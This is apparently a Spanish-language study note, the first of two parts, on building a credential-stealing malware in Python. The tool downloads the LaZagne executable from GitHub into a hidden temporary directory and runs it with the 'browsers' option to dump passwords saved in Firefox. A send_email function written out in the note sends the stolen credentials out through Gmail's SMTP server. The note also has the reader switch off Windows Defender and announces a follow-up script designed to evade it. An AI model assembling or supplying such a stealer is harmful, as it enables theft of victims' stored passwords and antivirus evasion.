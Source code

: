 # Introducción

Primeramente, nos centraremos en la creación de un malware diseñado para obtener y enviar las credenciales almacenadas en el navegador por correo electrónico en texto claro. Esto nos será de ayuda para comprender cómo se pueden explotar aplicaciones comunes para acceder a la información sensible. 

En este caso haremos uso de la herramienta **lazagne** el cual es un ejecutable que busca recopilar información de la máquina víctima y aunque esta primera fase para ver como funciona esto veremos como el propio Windows defender, lo desactivaremos un momento para observar como funciona con la opción específica **browsers**. 

Después de esto haremos un script ya enfocado en evitar la detección de Windows, defender y enfocado en recopilar las contraseñas almacenadas en el navegador Firefox y, aunque estas se almacenan encriptadas, existen formas de poder verlas en texto claro.
# Práctica

Nosotros podremos desde nuestra máquina Windows de atacante hacer nuestro script y luego pasarlo a nuestra máquina víctima, pero en este caso haremos todo en la misma máquina. 
Comenzaremos descargando el instalable de Python desde la página oficial y lo instalaremos seleccionando todas las opciones. Este se descarga de la página oficial [python3](https://www.python.org/downloads/). También instalaremos el navegador Firefox. 

Una vez instalado, desde la barra de búsqueda ejecutaremos el IDLE de Python. 

Aquí ya tendremos un entorno en el cual podremos escribir nuestros scripts y almacenarlos en alguna ruta del sistema. 

Para la práctica que realizaremos, en el navegador Firefox iremos a una página como Facebook y colocaremos unas credenciales falsas e intentaremos loguearnos. Evidentemente, no funcionará el logueo, pero almacenaremos las credenciales en el navegador.

![[Offensive/Malware/images/001.PNG]]

Ahora en el IDLE de Python le daremos a **new** y crearemos un nuevo archivo. 

Esto nos dará una especie de editor de texto, donde de primeras nos traeremos la función que utilizamos anteriormente para el correo con las librerías **smtplib** y **email.mime.text** de la cual extraíamos **MIMEText**:

```python3
def send_email(subject, body, sender, recipients, password):
        msg = MIMEText(body)
        msg['Subject'] = subject
        msg['From'] = sender
        msg['To'] = ', '.join(recipients)

        with smtplib.SMTP_SSL('smtp.gmail.com', 465) as smtp_server:
            try:
                smtp_server.login(sender, password)
                smtp_server.sendmail(sender, recipients, msg.as_string())
            except smtplib.SMTPAuthenticationError:
                print(colored("\n[!] Incorrect credentials to send email.\n", "red"))
                self.shutdown()
                os._exit(1)
```

![[Offensive/Malware/images/002.PNG]]

Con ello ahora consideraríamos la librería **requests**. Como ahora estamos construyendo el script y todo a nivel de pruebas, será necesario instalar las librerías. De cara a nuestra aplicación final que evitara el Windows defender, ya no tendremos problemas con esto, ya que se encapsularán en la aplicación las librerías al volverlo un ejecutable.

```pip
pip install requests
```

Con la librería requests nos traeremos el archivo ejecutable de **Lazagne**. Veremos cómo al almacenarlo como archivo nos saldrá el antivirus. 

Además, utilizaremos la librería **tempfile** para crear un directorio temporal y no almacenarlo en un lugar a la vista, con esta librería utilizando el método **mkdtemp()** crearemos un directorio temporal al cual nos cambiaremos con **os.chdir()** y le pasamos el nombre del directorio temporal el cual nos es retornado por **mkdtemp()** de la librería **tempfile**.

![[Offensive/Malware/images/003.PNG]]

Con requests hacemos una petición al [repositorio de lazagne](https://github.com/AlessandroZ/LaZagne/releases/download/v2.4.5/LaZagne.exe) apuntando específicamente al archivo ejecutable en su versión **2.4.5** que es la que se encuentra funcional para la extracción de las contraseñas de los navegadores. 

Una vez dentro del directorio, almacenamos el archivo con **open**, extrayendo el contenido de nuestra solicitud **get**. Con ello lo almacenaremos en la ruta recién creada y veremos cómo automáticamente nos salta el **Windows Defender**:

![[Offensive/Malware/images/004.PNG]]

El antivirus incluso nos eliminará el ejecutable debido a que se detecta automáticamente como malicioso. Nosotros, mediante la librería **subprocess** ejecutamos como comando la ejecución de este. En este caso nos enfocaremos en recuperar el output del comando que ejecutemos, por ello utilizaremos el método **check_output**, donde como primer argumento le pasamos el comando y, como segundo, a nivel de parámetro **shell** lo asignaremos como **True**. 

Finalmente, aplicamos un decode, ya que si no, no veremos completamente el texto del output en los caracteres especiales. Esto se debe a que Windows por detrás no utiliza métodos como el **utf8**, por ello realizaremos el decode con el método de cifrado **cp850** para este caso:

![[Offensive/Malware/images/005.PNG]]

Para que esto nos funcione, tendremos que desactivar el antivirus de Windows un momento, deshabilitando todas las opciones del siguiente apartado:

![[Offensive/Malware/images/006.PNG]]

Recordemos importar todas las librerías necesarias y con ello listo corremos nuestro script:

![[Offensive/Malware/images/007.PNG]]

Esto no nos retorna nada porque, como comando, solo estamos ejecutando **lazagne.exe**, pero le agregaremos la opción **browsers** para recuperar las credenciales de los navegadores. Recordemos que anteriormente simulamos un login y almacenamos esas credenciales, aquí deberían salir:

![[Offensive/Malware/images/008.PNG]]

![[Offensive/Malware/images/009.PNG]]

Viendo cómo funciona, podremos nuevamente habilitar el Windows defender y en los siguientes apuntes trabajaremos un script en Python el cual evite la detección de nuestro malware y también recupere las credenciales.
## Siguientes apuntes

[[Creación de Malware (2-2)]]




 

